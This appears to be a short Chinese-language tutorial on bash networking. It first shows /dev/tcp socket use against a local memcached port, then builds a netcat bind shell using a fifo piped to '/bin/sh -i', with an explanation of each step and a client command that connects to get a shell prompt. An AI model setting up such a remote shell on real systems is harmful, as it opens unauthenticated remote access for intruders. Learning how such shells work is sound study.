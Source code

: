 exec 8<>/dev/tcp/127.0.0.1/11211    #使用文件描述符8以<>(<读>写)方式，打开127.0.0.1的tcp11211端口
ls -l /proc/self/fd                                   #查看打开的连接8
echo -e "stats" >&8                             #向socket写入数据
cat <&8                                                  #从socket读入数据
exec 8<&-                                              #关闭socket读
exec 8>&-                                              #关闭socket写

    假设你的netcat 不支持 -c -e 参数

Server
$mkfifo /tmp/tmp_fifo
$cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 20000 > /tmp/tmp_fifo
$cat /tmp/tmp_fifo | /bin/sh -i  | nc -l 20000 > /tmp/tmp_fifo

这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中。
是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口20000上。至此，我们已经把netcat的输出重定向到fifo文件中。
说明：
从网络收到的输入写到fifo文件中
cat 命令读取fifo文件并且其内容发送给sh命令
sh命令进程受到输入并把它写回到netcat。
netcat 通过网络发送输出到client
至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

YYR:
  网络输入 -> nc -> fifo 
  cat fifo -> sh -> 执行完后其输出 -> nc -> 网络输出
  

在客户端仅仅简单连接到服务器
Client
$nc -n 192.168.1.1 20000
你会得到一个shell提示符在客户端


